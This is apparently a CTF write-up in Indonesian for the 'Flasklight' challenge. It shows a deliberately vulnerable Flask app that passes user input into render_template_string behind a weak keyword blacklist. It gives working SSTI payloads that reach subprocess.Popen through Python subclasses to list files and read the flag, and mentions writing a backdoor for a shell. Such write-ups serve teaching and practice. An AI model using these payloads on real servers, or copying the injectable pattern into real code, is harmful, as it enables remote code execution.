





<h3>Flasklight</h3>

<p>Diberikan sebuah website berbasis python Flask.</p>



Jika dilihat pada page source terdapat clue pertama.



Untuk soal ini saat peserta melihat web tersebut maka mindset pertama yang muncul adalah SSTI (Server-side Template Injection). Maka untuk percobaan pertama, peserta dapat melakukan antara 2 hal:

* {{7*7}}
* {{config}}



Dalam config tersebut, terdapat clue berikutnya yakni flag terdapat di dalam dir yang sama dengan aplikasi. Namun untuk mendapatkan flag, tidak dapat hanya menggunakan module **File** karena nama file tidak biasa (bukan **flag**).

Untuk tahap fuzzing, beberapa peserta akan mendapat beberapa 500 (Internal Server Error) disaat seharusnya payload sudah benar. Hal ini disebabkan karena adanya beberapa blacklist yang tidak ketat. Berikut source code dari **app.py**:

```python
from flask import Flask, request, render_template_string, abort

app = Flask(__name__)
app.secret_key = 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_in_this_dir}'
result = ["CCC{Fl49_p@l5u}", "CSC CTF 2019", "Welcome to CTF Bois", "CCC{Qmu_T3rtyPuuuuuu}", "Tralala_trilili"]
@app.route("/")
def search():
  global result
  blacklist = ['url_for', 'listdir', 'globals']
  search = request.args.get('search') or None
  if search is not None:
    for black in blacklist:
      if black in search:
        abort(500)
  if search in result:
    result = search
    return render_template_string('''<!DOCTYPE html>
<html>
<head>
  <title>Flasklight</title>
</head>
<body>
  <marquee><h1>Flasklight</h1></marquee>
  <h2>You searched for:</h2>
  <h3>%s</h3>
  <br>
  <h2>Here is your result</h2>
  <h3>%s</h3>
</body>
</html>''' % (search, result))
  elif search == None:
    return render_template_string('''<!DOCTYPE html>
<html>
<head>
  <title>Flasklight</title>
</head>
<body>
  <marquee><h1>Flasklight</h1></marquee>
  <h2>You searched for:</h2>
  <h3>%s</h3>
  <br>
  <h2>Here is your result</h2>
  <h3>%s</h3><br>
  <!-- Parameter Name: search -->
  <!-- Method: GET -->
</body>
</html>''' % (search, result))
  else:
    result = []
    return render_template_string('''<!DOCTYPE html>
<html>
<head>
  <title>Flasklight</title>
</head>
<body>
  <marquee><h1>Flasklight</h1></marquee>
  <h2>You searched for:</h2>
  <h3>%s</h3>
  <br>
  <h2>Here is your result</h2>
  <h3>%s</h3>
</body>
</html>''' % (search, result))

if __name__ == "__main__":
  app.run(host="0.0.0.0", port=9000)
```

Dapat dilihat bahwa blacklist yang ada:
* url_for
* listdir
* globals

Dengan begitu, peserta memerlukan cara lain untuk mendapatkan flag. Ada 2 intended solution dari pembuat soal:
* Menggunakan subclass **subprocess.Popen** untuk mengeksekusi shell
* Menggunakan module **File** untuk write backdoor dan mendapatkan shell

Untuk solusi kedua, peserta dapat menggunakan payload yang ada di <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">link</a>.

Untuk solusi pertama, payload yang dapat peserta gunakan adalah:
> {{''.__class__.__mro__[2].__subclasses__()[243]('ls', shell=True, stdout=-1).communicate()}}



Dan tinggal membaca flag.
> {{''.__class__.__mro__[2].__subclasses__()[243]('cat coomme*', shell=True, stdout=-1).communicate()}}



Flag: CCC{just_a_simple_blacklist_right?still_easy_leh}